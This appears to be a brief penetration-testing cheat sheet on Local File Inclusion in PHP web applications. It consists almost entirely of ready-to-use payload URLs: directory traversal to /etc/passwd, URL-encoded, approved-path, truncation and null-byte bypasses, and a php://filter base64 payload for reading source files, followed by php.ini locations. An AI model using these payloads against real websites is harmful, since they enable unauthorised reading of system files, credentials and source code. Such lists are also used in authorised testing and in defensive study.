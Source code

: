 # Local File Inclusion #

- Basic Local File Inclusion 
` https//webpage.com?php=../../../etc/passwd`

- Basic Bypasses (url encoding, approved path, path truncation, null bytes)
`https://webpage.com?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
`https://webpage.com?file=./<Approved_Directory>../../../../etc/passwd`
`https://webpage.com?file=<NON_EXISTING_DIRECTORY>/../../../../etc/passwd/././.<repeat until truncation>`
`https://webpage.com?file=/etc/passwd%00`

- PHP Filters
`https://webpage.com?file=php://filter/read=convert.base64-encode/resource=<FILE>`

- Configuration Location
`APACHE: /etc/php/<version>/apache2/php.ini`
`NGINX: /etc/php/<version>/fpm/php.ini`
